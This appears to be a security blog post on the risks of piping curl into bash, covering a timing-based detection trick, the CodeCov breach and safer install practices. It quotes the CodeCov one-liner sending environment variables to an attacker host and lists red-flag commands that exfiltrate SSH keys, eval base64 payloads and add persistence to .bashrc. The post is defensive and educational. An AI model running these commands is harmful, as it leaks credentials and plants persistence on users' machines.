


You've seen this a hundred times:

```bash
curl -sL https://example.com/install.sh | bash
```

Package managers, developer tools, cloud CLIs· everyone loves this one-liner. It's convenient. It's quick. It's **dangerous**.

Let me explain why this pattern should make you uncomfortable.

When you pipe curl to bash, the shell starts executing the script *before* it finishes downloading. You don't get a chance to review what you're about to run. You're trusting that:

1. The server is who it claims to be
2. The server hasn't been compromised
3. No one is intercepting your connection
4. The script is doing what it says it does

That's a lot of trust for a single command.

## How Attackers Exploit This

### The Buffer Timing Attack

Sophisticated attackers can detect whether you're piping to bash or downloading to a file. And they can choose to serve different content accordingly. The technique exploits TCP buffer dynamics. When you pipe to bash the shell processes the script line by line. If the script contains a `sleep` command, bash pauses execution. The server can detect this pause by measuring how long it takes to send data.

Here's the attack flow:



This technique was publicly documented in 2016, and working proof-of-concept code exists.

```python
# Simplified detection logic (pseudocode)
def serve_script(connection):
    # Send payload with sleep command + 1MB padding
    start = time.time()
    connection.send(detect_payload + padding)
    elapsed = time.time() - start

    if elapsed > 1.0:
        # Piped to bash - serve malicious version
        connection.send(MALICIOUS_PAYLOAD)
    else:
        # Downloaded to file - serve clean version
        connection.send(BENIGN_PAYLOAD)
```

The padding uses zero-width Unicode characters that are invisible in most terminals. Even if you somehow see the script fly by, you won't notice anything suspicious.

### Supply Chain Attacks

The CodeCov breach in 2021 showed how devastating this pattern can be at scale:



Attackers compromised CodeCov's infrastructure and modified their bash uploader script. For two months every developer who ran the installation command unknowingly executed this:

```bash
curl -sm 0.5 -d "$(git remote -v)<<<<<< ENV $(env)" https://attacker-ip/upload/v2 || true
```

One line. It exfiltrated every environment variable: AWS keys,  tokens, CI/CD secrets, you name it. Thousands of organizations got hit, including Twilio, HashiCorp, and Rapid7.

The breach went undetected until a user noticed the script's checksum didn't match what was published on GitHub.

### HTTPS Isn't Enough

You might think HTTPS protects you. It helps but it's not sufficient.

Attackers can still compromise:
- The server itself (like CodeCov)
- DNS resolution (serving you a different server)
- Reverse proxies in the delivery chain
- Certificate authorities (rare but catastrophic)

Package managers solve this with cryptographic signing. The curl-pipe-bash pattern has no equivalent protection.

## Real-World Damage

The scale of supply chain attacks has grown dramatically:

| Incident | Year | Impact |
|----------|------|--------|
| CodeCov | 2021 | 23,000+ customers, credentials stolen |
| SolarWinds | 2020 | 18,000 orgs installed backdoor, ~100 deeply compromised |
| NotPetya | 2017 | $10+ billion in damages globally |

These attacks share a common thread: trusted distribution channels became attack vectors.

## What to do instead

### Level 1: Download First, Review, Execute

The minimum improvement is breaking up the process:

```bash
# Download the script
curl -sL https://example.com/install.sh -o install.sh

# Review it
less install.sh

# Execute the saved file
bash install.sh

# Clean up
rm install.sh
```

> **Note:** This doesn't protect against all attacks, but it gives you a chance to spot obvious problems.

### Level 2: Verify Checksums

If an official checksum exists, verify the script's integrity before running it:

```bash
# Download script and checksum
curl -sL https://example.com/install.sh -o install.sh
curl -sL https://example.com/install.sh.sha256 -o install.sh.sha256

# Verify
if sha256sum -c install.sh.sha256; then
    bash install.sh
else
    echo "Checksum verification failed!"
    exit 1
fi
```

> **Important:** This protects against tampering, assuming the checksum itself isn't compromised. Ideally, checksums should be hosted separately from the scripts.

### Level 3: Use Package Managers

Whenever possible, use your system's package manager:

```bash
# Instead of curl | bash
brew install tool-name
apt install tool-name
npm install -g tool-name
```

Package managers have built-in signing and verification. They're not perfect, but they're significantly more secure than raw scripts.

### Level 4: Sandbox Execution

For scripts you must run but don't fully trust, consider sandboxing:

```bash
# Run in a container
docker run --rm -it alpine sh -c "
    wget -O install.sh https://example.com/install.sh
    sh install.sh
"
```

This limits the blast radius if something goes wrong.

## For Script Authors

If you distribute software via installation scripts, you have a responsibility to reduce risk for your users.

### Wrap Everything in a Function

```bash
#!/bin/bash

main() {
    echo "Installing..."
    # All installation logic here
    apt-get update
    apt-get install -y mypackage
    echo "Done!"
}

# Only execute at the very end
main "$@"
```

If the download is interrupted, the function is defined but never called. No partial execution.

### Publish Checksums

Always publish checksums alongside your scripts, preferably in a separate location with different access credentials.

### Consider Signed Releases

For critical software, consider GPG-signed releases that users can verify.

## Detection Indicators

When reviewing scripts, watch for these red flags:

```bash
# Data exfiltration
curl -d "$(env)" https://...
wget --post-data="$(cat ~/.ssh/id_rsa)" https://...

# Hidden commands
eval $(echo "YmFzaCAtaSA+Ji..." | base64 -d)

# Background persistence
nohup ./suspicious &
echo "curl ... | bash" >> ~/.bashrc
```

Also be suspicious of:
- Connections to IP addresses instead of domains
- Unusually large scripts with lots of whitespace or comments
- Scripts that download and execute additional scripts

## The Bottom Line

The `curl | bash` pattern isn't going away. At least you can make informed decisions about when to use it.
Obviously risk assessment is highly subjective, but I advise:

**Acceptable risk:**
- One-time setup on disposable environments
- When you've verified the checksum

**Unacceptable risk:**
- Production systems
- CI/CD pipelines with access to secrets
- Any script you haven't reviewed
- Anything without checksum verification

The best defense is awareness. Now that you know how these attacks work, you can make better decisions about what you run on your systems.

## Further Reading

-  - Original research on timing attacks
-  - Official incident report
-  - Runtime detection with Falco
